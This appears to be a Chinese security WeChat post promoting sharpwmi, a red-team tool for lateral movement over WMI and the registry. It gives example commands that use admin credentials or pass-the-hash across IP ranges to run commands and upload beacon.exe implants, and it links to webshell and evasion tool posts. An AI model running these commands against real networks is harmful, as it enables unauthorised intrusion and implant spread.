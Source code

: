 #  一个基于rpc的横向移动工具，具有上传文件和执行命令功能。

upzhu  [ x9sec ](javascript:void\(0\);)

**x9sec** ![]()

微信号 x9sec_com

功能介绍 进行网络安全知识分享，渗透测试，红队蓝队技术分享，安全开发平台开源

____

___发表于_

收录于合集

  
**声明：**
该公众号大部分文章来自作者日常学习笔记，也有部分文章是经过作者授权和其他公众号白名单转载，未经授权，严禁转载，如需转载，联系开白。请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本  
公众号无关。  
---  
  
  

  

 **项目简介**

  

这是一个基于135端口来进行横向移动的工具,具有执行命令和上传文件功能,通过wmi来执行命令,通过注册表来进行数据传输.

 **项目描述**  

 **命令  
**

  *   *   *   *   * 

    
    
     sharpwmi.exe login 192.168.2.3 administrator 123 cmd whoamisharpwmi.exe login 192.168.2.3/24 administrator 123 cmd whoamisharpwmi.exe login 192.168.2.3-23 administrator 123 upload beacon.exe c:\beacon.exesharpwmi.exe pth 192.168.2.3-192.168.2.77 cmd whoamisharpwmi.exe pth 192.168.2.3/255.255.255.0 upload beacon.exe c:\beacon.exe
    
    
     **  
    **

##  **原理:**

###

###  **执行命令** ：

通过wmi来执行命令，server将命令结果存在本机注册表，然后client连接注册表进行读取命令结果

###

###  **上传文件:**

client将需要上传的文件放到server的注册表里面，然后server通过powershell来操作注册表方式来取文件然后释放到本地

##

##  **优点：**

  * 不依赖139和445端口

##

##  **缺点：**

  * 目前只支持上传512kb以下的文件，因为注册表每个值值长度不能超过512kb。

  * 执行命令和上传文件都依赖powershell

##

##  **todo:**

  * 用添加增加多个值的方式来实现上传任意大小文件

  * 去除powershell依赖![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714181008.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714181009.png)  

  
 ****

 **下载地址**

 **项目地址：** https://github.com/idiotc4t/sharpwmi ****

 **添加管理微信进内部交流群**  

 **  
**

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714181011.png)

 **  
**

# **  往期推荐**  

[WebSocket
内存马/Webshell，一种新型内存马/WebShell技术](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485218&idx=1&sn=253e80ffe166a1d6f2d49e4ce3a3d9aa&chksm=fcedb385cb9a3a93f2af164a433ea7450fbc42de90b1e155ed6002083def4686410395dc4d53&scene=21#wechat_redirect)  

[Chunsou（春蒐），Web指纹资产识别，风险收敛以及企业互联网资产风险摸查识别工具](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485204&idx=1&sn=6fb5b82803fe00de48be2400a9246149&chksm=fcedb3b3cb9a3aa5208f0e8c45a260cc482fb73ff40afa45f745a7eb45a389a48792e8c0518c&scene=21#wechat_redirect)  

[Nacos Hessian
反序列化漏洞利用工具](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485190&idx=1&sn=c53db63cfaf46560d3369806321bc275&chksm=fcedb3a1cb9a3ab754c81a351965d1551b591ec5626af76aa5673d2400a9171729de39f80e9e&scene=21#wechat_redirect)  

[myscan
集成多个框架的漏洞扫描工具](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485181&idx=1&sn=2f91540e572397e15627cddb2ba24c4d&chksm=fcedb25acb9a3b4c2f7ee781fbca46ee1385afe194581f801c8721c72911a51211ac7779d173&scene=21#wechat_redirect)  

[Burp的JS
API接口过滤插件](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485160&idx=1&sn=55fb551de62132f0aacaff2821b24eb2&chksm=fcedb24fcb9a3b59e8bebafb9189e912a5e844c4c176df200e4cd4459510a7f8580a8f8aaac5&scene=21#wechat_redirect)  

[通达OA检测工具](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485131&idx=1&sn=bccb90bc296d87908f073ac8f6c317a0&chksm=fcedb26ccb9a3b7aeeb7c6beec9ba5fe7af4168ff731dfe1429c2daaebe3425d888b7da1eb80&scene=21#wechat_redirect)  

[从零学习Webshell免杀手册](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485091&idx=1&sn=591916b62674003afd2f57bba780cef5&chksm=fcedb204cb9a3b1209e510ed72ad42984a6ef5b62736164bd5474ff28d81b99ae9f9368ad0e2&scene=21#wechat_redirect)  

[爬网站JS文件，自动fuzz
api接口，指定api接口](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485069&idx=1&sn=e94bad6d0f927441b7cb5c533d2e369d&chksm=fcedb22acb9a3b3cfb57e9d40f8898c51fa4c9fa3562bd112b5d489f9cba5cf81637d1558b53&scene=21#wechat_redirect)  

[生成各类免杀webshell适合市面上常见的几种webshell管理工具、冰蝎、蚁剑、哥斯拉](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485058&idx=1&sn=ac47be9a9d0c6aba0ec991e5213a903e&chksm=fcedb225cb9a3b3312a895ec7da3819216fde632546b644f943a6b31c3b6efa6db3624f6edf7&scene=21#wechat_redirect)  

[一款新的webshell管理工具](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485049&idx=1&sn=e02753cc60ea620882710bf9cf7b23b0&chksm=fcedb2decb9a3bc82b6dc1d9da9bc9c112ceedf608732c8d3338b04c4ffa5b44ebe28355272c&scene=21#wechat_redirect)  

[浏览器插件--
右键检测图片是否存在Exif漏洞](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485033&idx=1&sn=184c7486a3fb0f06b27885e881146561&chksm=fcedb2cecb9a3bd82564162a5a013261acad3b244ba67af527b211175701b5ebc617f731fafe&scene=21#wechat_redirect)  

[一个自动化通用爬虫
用于自动化获取网站的URL](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485003&idx=1&sn=914d8bcd37af1e43ea293b20a6b7976e&chksm=fcedb2eccb9a3bfa7174dfba94b4b85570ab818f875acbcef26163c173ae7c67c4c153f6d191&scene=21#wechat_redirect)  

[一个查询IP地理信息和CDN服务提供商的离线终端工具](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247484994&idx=1&sn=55a0986b58d7bff15e8f55fd4b495204&chksm=fcedb2e5cb9a3bf3bc6d55f4e292fa43b4cb563012593b0f7832c040e0616f2aac53975dc31b&scene=21#wechat_redirect)  

[红队批量脆弱点搜集工具](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247484965&idx=1&sn=70e48cdcb7683b227bc3f8d8efd05a6a&chksm=fcedb282cb9a3b942c93edec939bf9943a66d7345c40916e3c17a369ace2d0a9eed83ccf5ae8&scene=21#wechat_redirect)  

[Spring漏洞综合利用工具——Spring_All_Reachable](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247484989&idx=1&sn=bfa97e5279e921e26631b9f93a75eefe&chksm=fcedb29acb9a3b8c178d47f04eaee53aabeb8e27b2c06e12d7f8a0916ea288b2a7ad94f4da3e&scene=21#wechat_redirect)  

[利用字符集编码绕过waf的burpsuite插件](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247484894&idx=1&sn=33cec3b0baa230be290d7c62935d0dd5&chksm=fcedb179cb9a386f103c044a2fcb481e31efc4358c808b38c7d4cd961ec99cbd72ac80175b8a&scene=21#wechat_redirect)  

[云安全-
AK/SK泄露利用工具](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247484850&idx=1&sn=785ebf6284c536262a08a6713cbcac8a&chksm=fcedb115cb9a38030cfe0024ecd722b3269d6eeddcd0845433f73ab68660ed776019b7a1f649&scene=21#wechat_redirect)  

[可以自定义规则的密码字典生成器](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247484816&idx=1&sn=80a19335226b0e242a36a85486c541fc&chksm=fcedb137cb9a382100c0fbb51875de2a1183f46acccced953d4ee927c3f627d8d8e4a3f660d4&scene=21#wechat_redirect)  

[MySql、Oracle、金仓、达梦、神通等数据库、Redis等管理工具](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247484787&idx=1&sn=766263e71666745fca6a1fe71b016170&chksm=fcedb1d4cb9a38c2cccc8c58afb34b31677974540d45ad9db5f032c0eba6c7ff26527c0dbd2c&scene=21#wechat_redirect)  

[JNDI/LDAP注入利用工具](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247484743&idx=1&sn=42224dd27e62cb0d7a5cbdebf4dbbf19&chksm=fcedb1e0cb9a38f6b091c5a753c80b411bb92197ea02439a0493886ad55b7203fed057ec7718&scene=21#wechat_redirect)  

[jmx未授权访问 弱口令批量检测 GUI工具 -
jmxbfGUI](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247484738&idx=1&sn=3d7cf4b2ec5bc5a92de3db9c57fe036e&chksm=fcedb1e5cb9a38f3e8d8fce41bfd4ac22d001c075bfe2f1425f1a90643ede8b93bce377fa787&scene=21#wechat_redirect)  

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

